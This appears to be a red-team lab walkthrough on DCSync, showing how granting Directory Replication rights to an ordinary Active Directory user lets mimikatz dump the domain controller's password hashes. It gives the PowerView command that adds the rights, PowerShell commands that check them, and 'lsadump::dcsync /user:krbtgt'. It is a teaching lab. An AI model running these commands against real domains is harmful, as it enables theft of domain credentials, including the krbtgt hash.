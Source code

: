 # DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354\(v=vs.85\).aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355\(v=vs.85\).aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663\(v=vs.85\).aspx)” extended right (this one isn’t always needed but we can add it just in case :)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-18-32.png)

Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:

{% code title="attacker@victim" %}
```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```
{% endcode %}

Below shows the above command and also proves that spotless does not belong to any privileged group:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-21-02.png)

However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-21-09.png)

Let's grab the SID of the user spotless with `whoami /all`:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-28-18.png)

Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:

{% code title="attacker@kali" %}
```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-27-54.png)

Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:

{% code title="attacker@victim" %}
```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-15-11-36.png)

See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:

{% code title="attacker@victim" %}
```csharp
lsadump::dcsync /user:krbtgt
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-34-44 (1).png>)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/" %}

{% embed url="https://medium.com/@jsecurity101/syncing-into-the-shadows-bbd656dd14c8" %}
